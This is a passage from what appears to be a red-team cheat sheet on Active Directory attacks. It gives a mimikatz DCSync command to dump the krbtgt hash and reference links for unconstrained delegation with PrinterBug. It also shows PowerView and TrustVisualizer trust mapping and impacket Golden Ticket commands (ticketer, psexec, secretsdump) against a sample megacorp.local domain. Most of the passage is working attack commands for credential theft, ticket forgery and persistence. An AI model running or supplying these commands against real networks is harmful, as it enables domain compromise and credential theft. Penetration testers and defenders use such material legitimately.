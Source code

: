 DCSync:

```
mimikatz # lsadump::dcsync /user:megacorp.local\krbtgt /domain:megacorp.local
```



### UnD + PrinterBug

* [https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/](https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/)
* [https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1](https://posts.specterops.io/hunting-in-active-directory-unconstrained-delegation-forests-trusts-71f2b33688e1)
* [https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#breaking-forest-trusts)
* [https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1](https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-Spoolsample.ps1)
* [https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe](https://github.com/BlackDiverX/WinTools/blob/master/SpoolSample-Printerbug/SpoolSample.exe)



### Visualization (yEd)

* [http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/](http://www.harmj0y.net/blog/redteaming/domain-trusts-why-you-should-care/)
* [https://github.com/HarmJ0y/TrustVisualizer](https://github.com/HarmJ0y/TrustVisualizer)
* [https://www.yworks.com/products/yed](https://www.yworks.com/products/yed)

```
PowerView3 > Get-DomainTrustMapping | Export-Csv -NoTypeInformation trusts.csv
$ git clone https://github.com/HarmJ0y/TrustVisualizer
$ python -m pip install networkx --proxy http://127.0.0.1:8090
$ ./TrustVisualizer.py trusts.csv
```




## Persistence



### Golden Ticket


#### impacket

```
$ ticketer.py -nthash 00ff00ff00ff00ff00ff00ff00ff00ff -domain-sid S-1-5-21-4266912945-3985045794-2943778634 -domain megacorp.local snovvcrash
$ export KRB5CCNAME=`pwd`/snovvcrash.ccache
$ psexec.py megacorp.local/snovvcrash@DC01.megacorp.local -k -no-pass
$ secretsdump.py megacorp.local/snovvcrash@DC01.megacorp.local -dc-ip 10.10.13.37 -just-dc-user 'MEGACORP\krbtgt' -k -no-pass
```
